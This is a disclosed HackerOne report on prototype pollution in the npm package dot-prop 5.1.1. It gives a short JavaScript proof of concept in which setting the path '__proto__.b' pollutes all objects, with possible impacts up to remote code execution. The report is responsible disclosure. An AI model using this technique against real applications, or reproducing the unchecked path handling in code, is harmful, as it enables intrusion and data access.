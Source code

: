 # Prototype pollution in dot-prop

## Report Details
- **Report ID**: 719856
- **URL**: https://hackerone.com/reports/719856
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-22T12:06:11.633Z
- **Disclosed**: 2020-01-28T10:17:51.585Z

## Reporter
- **Username**: aaron_costello
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a parameter pollution in dot-prop
It allows an attacker to modify the prototype of a base object which can vary in severity depending on the implementation (DoS, access to sensitive data, RCE).

# Module

**module name:** dot-prop
**version:** 5.1.1
**npm page:** https://www.npmjs.com/package/dot-prop

## Module Description

Get, set, or delete a property from a nested object using a dot path

## Module Stats

weekly downloads:
8,627,892

# Vulnerability

## Vulnerability Description

See previous description

## Steps To Reproduce:

```
var dotProp = require("dot-prop")
const object = {};
console.log("Before " + object.b); //Undefined
dotProp.set(object, '__proto__.b', true);
console.log("After " + {}.b); //true
```

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Can result in: dos, access to restricted data, rce (depends on implementation)

## Attachments
No attachments
